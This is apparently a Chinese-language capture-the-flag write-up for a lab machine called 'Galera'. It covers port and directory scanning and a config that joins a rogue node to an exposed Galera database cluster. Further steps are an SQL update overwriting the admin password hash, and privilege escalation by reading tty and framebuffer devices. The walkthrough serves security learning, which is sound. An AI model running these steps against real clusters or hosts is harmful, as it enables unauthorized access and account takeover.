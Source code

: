 # Galera HVM

> 日期：2025-07-02 ｜ 作者：dehua ｜ 标签：HVM, Galera, 数据库安全

---

## 信息收集阶段

首先对目标进行端口扫描，发现开放的服务如下：

```bash
nmap -sC -sV -A 192.168.1.100
```

```
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey:
| 256 28:50:32:2f:bb:ef:7e:51:c3:59:cb:e6:40:88:0e:4e (ECDSA)
|_256 f3:fa:a1:84:c6:da:fc:09:fe:aa:ca:ec:0a:29:7d:30 (ED25519)
80/tcp open http Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Login
4567/tcp open tram?
```

---

## 漏洞利用过程

发现 80 端口是一个登录页面，进行目录扫描：

```bash
gobuster dir -u http://192.168.218.181/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x php,txt,html
```

```
/login.php (Status: 302) [--> /]
/logout.php (Status: 302) [--> index.php]
/config.php (Status: 200)
/upload (Status: 301) [--> /upload/]
/private.php (Status: 403)
/info.php (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
```

> 发现一个 `info.php` 页面，是标准的 PHP 配置信息页面；其他页面基本无用。
>
> 查看 `index.php` 源码，发现一个隐藏的 `token`，但初步分析似乎没有实际用途。
>
> 4567 端口通过搜索发现与 **Galera Cluster** 有关，是集群节点通信端口。

### Galera Cluster 特性：

- 同步复制  
- 多主结构  
- 自动成员资格管理  
- 节点自动加入集群  
- 行级并行复制  
- 任意节点可直连访问

后来参考一位大佬的 WP，发现可以伪装节点加入集群。

```ini
[galera]
wsrep_on = ON
wsrep_provider = /usr/lib/galera/libgalera_smm.so
wsrep_cluster_address = "gcomm://192.168.218.181:4567"
wsrep_node_name = "sunset"
wsrep_node_address = "192.168.218.148"
binlog_format = row
default_storage_engine = InnoDB
wsrep_sst_method = rsync
bind-address = 0.0.0.0
```

重启数据库服务后成功同步，拿到对方数据库信息：

![Image](https://github.com/user-attachments/assets/9bed1578-e989-49a2-a367-0d114ce571df)

开始还想着爆破，但是太慢了，后面一想，反正会同步复制数据，我直接改。

```sql
update users set password = "$2a$10$3NvG5rz1vFOz.bGrDxKI3eAH3WlC1QDGF7Yl5s7WEvKRAUAjuTkZO" where username = "admin"
```

多次尝试登录后台，成功进入后修改首页内容：

![Image](https://github.com/user-attachments/assets/973f14ed-abe4-4ec4-b6cf-ff5c666e3f3d)

接着尝试拿 webshell，但函数被禁用，只能用伪协议查看敏感文件：

![Image](https://github.com/user-attachments/assets/87e047b3-260e-4a90-a3af-19d61022c6c5)

![Image](https://github.com/user-attachments/assets/c0ab0d0b-88e4-4fc0-bd8f-1e03474a5d58)

发现用户 `donjuandeaustria`，随后获得 shell 权限：

![Image](https://github.com/user-attachments/assets/42394c3c-5989-470e-ab54-2488be66a1a6)

---

## 提权过程

使用 linpeas 发现 root 在 tty20 终端，自己属于多个组，其中 `tty` 是关键：

```bash
cat /dev/vcs20
# 或
cat /dev/vcsa20
```

![Image](https://github.com/user-attachments/assets/1269ea35-b1f2-4c9c-a390-3ca213409a04)

### 📌 video 组提权思路（HackTricks）

目标用户属于 `video` 组：  
👉 https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html#video-group

```bash
donjuandeaustria@galera:/dev$ cat /dev/fb0 > /tmp/screen.raw
donjuandeaustria@galera:/dev$ cat /sys/class/graphics/fb0/virtual_size
1280,800
```

将 `/tmp/screen.raw` 下载后查看，但似乎无内容：

![Image](https://github.com/user-attachments/assets/1e01ea30-1b7d-428c-90fd-75a7883a3a89)
